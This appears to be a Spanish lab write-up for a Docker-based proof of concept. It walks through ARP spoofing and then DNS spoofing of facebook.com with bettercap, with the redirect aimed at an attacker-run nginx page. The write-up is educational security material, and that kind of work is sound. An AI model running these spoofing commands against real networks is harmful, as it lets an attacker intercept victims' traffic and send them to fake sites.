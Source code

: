 Para hacer el Proof of Concept del DNS Spoofing, creamos un entorno Docker con 3 máquinas:  

- Atacante: un kali linux con la herramienta bettercap, con el que haremos el ataque. Además, cuenta con un servidor nginx que es al que redigiremos a la víctima.  
- Cliente: la víctima de este ataque. Cuenta con herramientas como dig y un navegador web, lynx, para comprobar que el ataque ha funcionado.  
- Gateway: Simula el router de la red. Las otras dos máquinas la tienen como ruta default y simplemente redirige todo el tráfico que le llega.  

Levantamos el entorno con `sudo docker-compose up –d –build`  y comenzamos el ataque: 

- En una terminal abrimos un bash en el atacante con `sudo docker exec –it atacante bash`. En otra, nos conectamos al cliente con `sudo docker exec –it atacante bash`.   

- Comenzamos el ataque: en la máquina atacante ejecutamos `bettercap -iface eth0`. Seguidamente, ejecutamos `net.probe on` para detectar el resto de dispositivos en la red.  

![](Pasted%20image%2020241112120351.png)

- Para visualizar estos dispositivos, ejecutamos `net.show`.
 
![](Pasted%20image%2020241112120412.png)
- Ahora haremos un arp spoofing. Para ello, ejecutamos:
```bash
set arp.spoof.targets 172.21.0.2, 172.21.0.100
arp.spoof on
```

![](Pasted%20image%2020241112120532.png)
- Como vemos después de ejecutar algo que pase por el router, como un ping 8.8.8.8, el cliente tiene la direccion MAC del atacante como si fuera la del gateway en su caché ARP.

![](Pasted%20image%2020241112120644.png)

- Para efectuar el dns spoofing, ahora escribimos los comandos
```bash
set dns.spoof.domains facebook.com
set dns.spoof.address 172.21.0.101
dns.spoof on
```

![](Pasted%20image%2020241112120736.png)

- Al hacer dig facebook.com, el cliente encontrará la IP del atacante. 

![](Pasted%20image%2020241112120819.png)

- Y al usar el navegador, `lynx facebook.com`, verá la página web del atacante.  

![](Pasted%20image%2020241112120853.png)

- Para ambas situaciones, en intrerfaz de bettercap veremos lo siguiente: 

![](Pasted%20image%2020241112120921.png)

 

 
